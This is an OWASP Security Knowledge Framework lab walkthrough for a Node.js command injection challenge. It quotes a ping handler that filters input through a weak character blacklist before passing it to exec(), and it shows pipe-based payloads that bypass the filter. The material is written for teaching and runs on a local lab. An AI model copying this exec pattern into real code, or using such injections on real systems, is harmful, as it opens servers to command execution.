 # Command Injection 4 - CMD-4

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-cmd4
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-cmd4
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

When we start the application we can see that we can ping an adress.

![](../../.gitbook/assets/nodejs/CMD4/1.png)

Let's try to ping 127.0.0.1

![](../../.gitbook/assets/nodejs/CMD4/2.png)

We get back the output of the ping command which tell us this might be vulnerable to a command injection.

## Exploitation

Let's try chaining commands

```text
127.0.0.1 ; whoami
```

We get nothing back, maybe this application has a blacklist

```javascript
let ip = req.body.text;
ip = ip.replace("`", "");
ip = ip.replace(";", "");
ip = ip.replace("&", "");
exec(`ping -c1 ${ip} > ./ping_output`);
```

We can see in this piece of code the app is removing certain dangerous characters in an attempt to avoid some kind of command injection. Unfortunately there are ways to bypass this blacklist approach.
Let's try piping the commands:

```text
127.0.0.1 | whoami
```

![](../../.gitbook/assets/nodejs/CMD4/3.png)

And we have a command injection!

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/Command_Injection" %}

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html" %}

